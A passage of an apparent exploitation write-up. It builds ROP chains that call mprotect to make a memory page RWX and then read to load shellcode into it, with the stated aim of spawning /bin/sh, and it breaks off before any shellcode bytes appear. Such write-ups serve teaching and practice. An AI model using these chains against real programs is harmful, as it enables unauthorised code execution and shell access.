  padding
payload = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"

 mark memory page at buf rwx
payload += p64(poprax)  sete in poprdi mitigation
payload += p64(dummy)
payload += p64(poprdi)  1ST ARGUMENT
payload += p64(buf)  ADDRESS
payload += p64(poprsi)  2ND ARGUMENT
payload += p64(0x100)  SIZE
payload += p64(poprdx)  3RD ARGUMENT
payload += p64(0x7)  RWX
payload += p64(eax0)  SET RAX = 0
payload += p64(inc2rax) * 5  SET RAX = 10
payload += p64(syscall)  SYSCALL


Executing the program with this input will mark the memory page with RWX permissions. We can verify this in GDB using
the vmmap command:

gdb
gdb-peda vmmap
Start              End                Perm	Name
[...]
0x00551000         0x00567000         rwxp	main
[...]



**Step 2: Write shell code into the page**

To read in the shell code, we use the read syscall. Its documentation states the following:

c
ssizet read(int fd, void *buf, sizet count);

read() attempts to read up to count bytes from file descriptor fd into the buffer starting at buf.


We can use the same technique to spawn the syscall as above. The syscall table shows that this time we need to call
the syscall with number 0. The file descriptor for standard input also has the number 0. Thus, we need to create the
following register situation:

 - rax: 0x0
 - rdi: 0x0
 - rsi: 0x00551000
 - rdx: 0x100

Conveniently, we already have the ROP gadgets needed and only need to rearrange:

python
payload += p64(poprax)  sete in poprdi mitigation
payload += p64(dummy)
payload += p64(poprdi)  1ST ARGUMENT
payload += p64(0x0)  STDIN
payload += p64(poprsi)  2ND ARGUMENT
payload += p64(buf)  ADDRESS
payload += p64(poprdx)  3RD ARGUMENT
payload += p64(0x100)  SIZE
payload += p64(eax0)  SET RAX = 0
payload += p64(syscall)  SYSCALL



Now, we have to provide some code that actually spawns a shell. This 27 bytes assembly program will spawn /bin/sh. It
is taken from [shell-storm.org](http://shell-storm.org/shellcode/files/shellcode-806.php).

python
 http://shell-storm.org/shellcode/files/shellcode-806.php


